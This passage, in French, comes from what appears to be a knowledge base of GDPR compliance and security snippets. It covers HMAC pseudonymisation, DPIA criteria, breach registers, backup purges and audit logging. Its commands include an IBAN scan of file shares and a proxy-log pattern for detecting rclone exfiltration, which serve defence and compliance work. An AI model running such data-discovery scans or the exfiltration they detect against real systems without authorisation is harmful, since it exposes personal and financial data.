level: advanced
importance: medium
format: knowledge
tags: rgpd,pseudonymisation,anonymisation,hash
title: SHA-256 d'un e-mail n'est pas de l'anonymisation
content: Un hash sans secret est déterministe : sha256('alice@example.com') donne toujours la même valeur, et un dictionnaire d'e-mails permet de retrouver l'original ou de recouper deux jeux de données. La donnée reste personnelle. Correction : HMAC avec une clé secrète stockée à part (pgcrypto : hmac(email, '<CLE_SECRETE>', 'sha256')) et la traiter comme pseudonymisée, pas anonymisée.
description: Un hash déterministe sans clé se recoupe par dictionnaire. Seul un HMAC avec clé séparée réduit le risque, et la donnée reste soumise au RGPD.
-->

<!-- snippet
id: rgpd_dpo_rssi_conflit
type: concept
tech: rgpd
level: intermediate
importance: medium
format: knowledge
tags: rgpd,dpo,rssi,gouvernance
title: DPO et RSSI : pourquoi les cumuler pose problème
context: Article 38.6 du RGPD
content: Le DPO conseille et contrôle la conformité, en indépendance fonctionnelle ; le RSSI choisit et déploie les mesures de sécurité. Cumuler les deux revient à contrôler ses propres décisions. L'article 38.6 n'admet d'autres missions qu'en l'absence de conflit d'intérêts, et les lignes directrices de l'EDPB citent le RSSI comme poste typiquement incompatible. Exemple de tension saine : le RSSI veut des logs 12 mois, le DPO invoque la minimisation, et la direction arbitre par écrit.
description: Celui qui détermine les moyens de sécurité ne peut pas être celui qui les contrôle. L'arbitrage entre les deux appartient à la direction et doit être tracé.
-->

<!-- snippet
id: rgpd_aipd_criteres
type: concept
tech: rgpd
level: advanced
importance: medium
format: knowledge
tags: rgpd,aipd,risque,traitement
title: AIPD : quand elle devient obligatoire
context: Article 35, critères de l'EDPB
content: L'AIPD est exigée pour un traitement susceptible d'engendrer un risque élevé pour les droits et libertés des personnes. L'EDPB retient neuf critères (scoring, décision automatisée, surveillance systématique, données sensibles, grande échelle, croisement, personnes vulnérables, usage innovant, exclusion d'un droit). Deux critères réunis exigent généralement une AIPD. Si le risque résiduel reste élevé, consultation préalable de l'autorité (art. 36).
description: Le risque évalué est celui des personnes, pas celui de l'entreprise. Deux critères EDPB suffisent en général, et un risque résiduel élevé impose de consulter l'autorité.
-->

<!-- snippet
id: rgpd_sous_traitant_clauses
type: tip
tech: rgpd
level: intermediate
importance: high
format: knowledge
tags: rgpd,sous-traitant,contrat,article28
title: Clauses du contrat sous-traitant qui comptent en incident
content: Exiger dans l'avenant art. 28 un délai de notification de violation de 24 à 48 h, la liste des sous-traitants ultérieurs avec autorisation préalable, le MFA obligatoire sur les accès distants, un droit d'audit réellement exercé via une attestation ISO 27001 annuelle, et la preuve de suppression des données en fin de contrat.
description: Un contrat sans délai de notification ni preuve de MFA laisse le responsable de traitement découvrir l'incident après le prestataire, avec 72 h qui courent.
-->

<!-- snippet
id: rgpd_registre_violations
type: tip
tech: rgpd
level: intermediate
importance: medium
format: knowledge
tags: rgpd,violation,documentation,registre
title: Documenter aussi les violations non notifiées
context: Article 33.5 du RGPD
content: Chaque violation, notifiée ou non, doit figurer dans un registre interne : faits, effets, mesures prises, justification de la décision de ne pas notifier. Utiliser un enregistrement structuré (date de connaissance, estimation du nombre de personnes et sa source, niveau de risque, décideur, avis du DPO). Un contrôleur peut le demander pour vérifier vos non-notifications.
description: Une décision de non-notification sans trace écrite n'est pas défendable lors d'un contrôle. Le registre doit exister avant l'incident.
-->

<!-- snippet
id: rgpd_retention_sauvegardes
type: warning
tech: rgpd
level: advanced
importance: high
format: knowledge
tags: rgpd,conservation,sauvegarde,purge
title: Purge en prod mais pas dans les sauvegardes
content: Supprimer les clients inactifs de la base de production sans toucher aux sauvegardes, aux exports ni aux logs laisse les données vivantes ailleurs, et une restauration les réintroduit. Correction : borner la durée de rétention des sauvegardes, tenir un journal des suppressions rejoué après chaque restauration, et contrôler par requête que plus aucun enregistrement n'excède la durée définie.
description: La purge de production ne suffit pas : backups, exports et logs conservent les données. Un journal des suppressions rejoué après restauration ferme la brèche.
-->

<!-- snippet
id: rgpd_logs_lecture_estimation
type: concept
tech: rgpd
level: advanced
importance: high
format: knowledge
tags: rgpd,traçabilite,logs,notification
title: Sans logs de lecture, l'estimation par défaut est le maximum
context: Article 33.3 du RGPD
content: La notification doit indiquer le nombre approximatif de personnes et d'enregistrements concernés. Sans log de lecture sur les tables sensibles, on ne peut pas prouver qu'une donnée n'a pas été consultée : l'hypothèse retenue est la totalité de la base. Conséquences : nombre de personnes à informer maximal, communication plus lourde, risque accru de recours.
description: La traçabilité des lectures réduit le périmètre de notification. Journaliser les tables sensibles, pas tout le schéma, pour limiter le volume de logs.
-->

<!-- snippet
id: rgpd_scan_iban_partage
type: command
tech: rgpd
level: intermediate
importance: medium
format: knowledge
tags: rgpd,discovery,iban,partage
title: Chercher des IBAN en clair dans un partage de fichiers
context: Sur un montage du partage, en lecture seule, avec autorisation écrite
command: grep -rEl 'FR[0-9]{2}( ?[0-9A-Z]{4}){5} ?[0-9A-Z]{3}' <PARTAGE>
example: grep -rEl 'FR[0-9]{2}( ?[0-9A-Z]{4}){5} ?[0-9A-Z]{3}' /mnt/partage_compta
description: Liste les fichiers contenant un IBAN français au format standard, avec ou sans espaces. Les faux positifs existent. Sert à repérer les extractions oubliées.
-->

<!-- snippet
id: rgpd_s3_public_access_block
type: command
tech: rgpd
level: intermediate
importance: high
format: knowledge
tags: rgpd,aws,s3,exposition
title: Vérifier le blocage d'accès public d'un bucket S3
command: aws s3api get-public-access-block --bucket <BUCKET>
example: aws s3api get-public-access-block --bucket exports-clients-prod
description: Les quatre options (BlockPublicAcls, IgnorePublicAcls, BlockPublicPolicy, RestrictPublicBuckets) doivent être à true. Confirme avec aws s3 ls --no-sign-request, qui doit être refusé.
-->

<!-- snippet
id: rgpd_auditd_dossier_sensible
type: command
tech: rgpd
level: intermediate
importance: medium
format: knowledge
tags: rgpd,auditd,traçabilite,linux
title: Journaliser les accès à un dossier sensible avec auditd
context: Sur un serveur Linux avec auditd actif ; le volume de logs dépend de l'activité du dossier
command: auditctl -w <DOSSIER> -p rwa -k <CLE>
example: auditctl -w /srv/rh/dossiers -p rwa -k rh_dossiers
description: Trace lecture, écriture et changement d'attributs. Les événements se consultent avec ausearch -k <CLE>. Limiter la surveillance aux dossiers sensibles pour contenir le volume.
-->

<!-- snippet
id: rgpd_hunt_rclone_proxy
type: command
tech: rgpd
level: advanced
importance: medium
format: knowledge
tags: rgpd,exfiltration,rclone,detection
title: Repérer rclone dans les logs du proxy sortant
context: Sur les logs du proxy web ; rclone envoie par défaut un User-Agent rclone/vX.Y, modifiable par l'attaquant ; visible seulement si le proxy journalise le User-Agent et, en HTTPS, intercepte le TLS
command: grep -i 'rclone/' <LOG_PROXY>
example: grep -i 'rclone/' /var/log/squid/access.log
description: Détecte l'usage de rclone avec son User-Agent par défaut, signe courant d'exfiltration vers un stockage cloud. À compléter par une analyse du volume sortant par compte.
-->
